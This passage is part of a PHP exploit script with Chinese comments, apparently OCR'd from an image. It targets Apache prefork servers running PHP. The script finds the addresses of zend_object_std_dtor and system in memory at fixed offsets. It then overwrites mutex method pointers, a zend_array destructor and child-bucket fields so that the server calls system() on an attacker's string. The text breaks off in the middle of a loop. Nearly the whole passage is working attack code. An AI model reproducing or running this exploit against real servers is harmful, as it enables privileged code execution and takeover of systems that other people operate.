 ```
	die("can't find zend_object_std_dtor function addr\n");
}

for($i = 0;$i<count($libphp_region);$i++){
	if($libphp_region[$i][2] === "r-xp"){
		$zend_object_std_dtor_addr = $libphp_region[$i][0]+0x4F8300;//zend_object_std_dtor 在libphp7.so代码段中的偏移
		break;
	}
}

if($zend_object_std_dtor_addr === 0){
	die("can't find zend_object_std_dtor function addr\n");
}
echo "zend_object_std_dtor function addr:0x".dechex($zend_object_std_dtor_addr)."\n";

//查找system函数的地址(在libpthread中)
$system_addr = 0;
$pthread_region = get_mem_region("pthread");
if(!count($pthread_region)){
	die("can't find system function addr\n");
}

for($i = 0;$i<count($pthread_region);$i++){
	if($pthread_region[$i][2] === "r-xp"){
		$system_addr = $pthread_region[$i][0]+0xF4C0;//system 在libpthread-2.17.so代码段中的偏移
		break;
	}
}

if($system_addr === 0){
	die("can't find system function addr\n");
}
echo "system function addr:0x".dechex($system_addr)."\n";

//将apr_proc_mutex_unix_lock_methods_t中的child_init改为zend_object_std_dtor
$child_init = $evil_mutex_methods_start_addr+0x30;
echo "child_init(0x".dechex($child_init).") => zend_object_std_dtor\n";
write_mem_qword($evil_mutex_methods_start_addr+0x30,$zend_object_std_dtor_addr);

//将混合结构zend_array的pDestructor指向system
$pDestructor = $evil_zend_array_start_addr + 0x30;
echo "pDestructor(0x".dechex($pDestructor).") => system\n";
write_mem_qword($pDestructor,$system_addr);

//将混合结构zend_array的meth指向apr_proc_mutex_unix_lock_methods_t
$meth = $evil_zend_array_start_addr + 0x8;
echo "meth(0x".dechex($meth).") => mutex_mthods_struct\n";
write_mem_qword($meth,$evil_mutex_methods_start_addr);
write_mem_qword($evil_zend_array_start_addr,0x1);

//将prefork_child_bucket中的mutex指向混合结构zend_array
$mutex = $evil_parent_start_addr + 0x10;
echo "mutex(0x".dechex($mutex).") => zend_array struct\n";
write_mem_qword($mutex,$evil_zend_array_start_addr);

//将混合结构prefork_child_bucket中的properties指向zend_array结构
$properties = $evil_parent_start_addr + 0x20+0x10;
echo "properties(0x".dechex($properties).") => zend_array struct\n";
write_mem_qword($properties,$evil_zend_array_start_addr);

//system 字符串 写入
for($i = 0;$i<strlen($evil_string);$i++){
```
